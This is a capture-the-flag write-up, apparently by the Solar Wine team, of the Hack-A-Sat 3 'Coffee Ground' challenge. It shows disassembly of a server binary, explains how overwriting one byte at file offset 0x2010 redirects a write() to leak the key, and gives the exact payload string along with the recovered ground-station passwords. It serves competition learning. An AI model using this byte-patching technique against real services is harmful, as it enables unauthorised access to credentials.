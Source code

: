 # HACK-A-SAT 3: Coffee Ground

* **Category:** Ground Station Access
* **Points:** 3400 per Ground Station on first connection
* **Description:**

Went for a coffee run and found something sus.

Teams are given a `intel_drop.tar.xz` archive that contains:

* `coffee.java`: ELF x86-64,
* `coffee.png`: 1024x682 JPEG image,
* `serv`: ELF x86-64.

![Content of `coffee.png`](images/coffee.jpg)

## Write-up

_Write-up by Solar Wine team_

There were 5 instances of this service running on ports 13000 through 13004.

The `key` variable is on the stack at offset `RBP + -0xb8` (0xffffff48). When writing back, the server uses a variable on the stack at offset `RBP + -0xa8`:

```
00102004 8b 85 28 ff ff ff      MOV        EAX,dword ptr [RBP + -0xd8]=>in_size
0010200a 48 63 d0               MOVSXD     RDX,EAX
0010200d 48 8b 8d 58 ff ff ff   MOV        RCX,qword ptr [RBP + -0xa8]=>local_b0
00102014 8b 85 30 ff ff ff      MOV        EAX,dword ptr [RBP + -0xd0]=>local_d8
0010201a 48 89 ce               MOV        RSI,RCX
0010201d 89 c7                  MOV        EDI,EAX
0010201f e8 6c f1 ff ff         CALL       <EXTERNAL>::write
```

Since we can patch any byte of the service, replace `58 ff ff ff` with `48 ff ff ff` in the instruction at `0010200d` to output the flag.

The offset in the file is 0x2010, so sending `b'8208\nH8\nhello!  '` will output the password.

Using this attack gives rolling password to connect to new Ground Stations,
for example:

* port 13000, Guam: `YJsiWoh9`,
* port 13001, Mauritius: `JF-CM03E`,
* port 13002, Mingenew: `qL_MPv3_`,
* port 13003, LosAngeles: `jMOLbpmi`,
* port 13004, Cordoba: `kCt9XFgr`.
